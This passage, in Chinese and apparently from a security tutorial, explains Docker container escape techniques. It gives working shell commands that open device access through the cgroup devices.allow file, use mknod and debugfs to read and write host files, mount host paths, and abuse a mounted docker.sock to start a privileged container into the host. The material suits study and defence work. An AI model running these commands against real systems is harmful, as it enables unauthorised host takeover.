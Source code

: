 上述做法经常在不同的 Docker 容器逃逸 EXP 被使用到；如果我们在漏洞利用过程中，需要在容器和宿主机内进行文件或文本共享，这种方式是非常棒且非常通用的一个做法。

其思路在于利用 Docker 容器镜像分层的文件存储结构 (Union FS)，从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径；则对该路径下的文件操作等同于对容器根目录的文件操作。

另外一个比较小众方法是借助上面 lxcfs 的思路，复用到 sys_admin 或特权容器的场景上读写母机上的文件

首先还是需要先创建一个 cgroup 但是这次是 device subsystem 的

```bash
mkdir /tmp/dev
mount -t cgroup -o devices devices /tmp/dev/
```

修改当前已控容器 cgroup 的 devices.allow，此时容器内已经可以访问所有类型的设备

```bash
echo a > /tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow
```

使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，此时我们就有了读写宿主机任意文件的权限。

```bash
mknod near b 252 1
debugfs -w near
```

## 特殊路径挂载

比如/, /etc/, /root/.ssh 等敏感路径，执行类似命令 

```bash
docker run -it -v /:/tmp/rootfs ubuntu bash
```

### Docker in Docker

 /var/run/docker.sock 被挂载容器内的时候，容器内就可以通过 docker.sock 在宿主机里创建任意配置的容器，此时可以理解为可以创建任意权限的进程；当然也可以控制任意正在运行的容器

场景：存在于 Serverless 的前置公共容器内，或者存在于每个节点的日志容器内

可以用类似下述的命令创建一个通往母机的 shell。

```bash
./bin/docker -H unix:///tmp/rootfs/var/run/docker.sock run -d -it --rm --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
```

### 攻击挂载了/proc的容器

创建一个具有该配置的容器并获得其 shell：

```bash
sudo docker run -v /proc:/host_proc --rm -it vulhub/confluence:7.13.6 bash

#找宿主机内对应当前容器内部文件结构的路径
sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
```
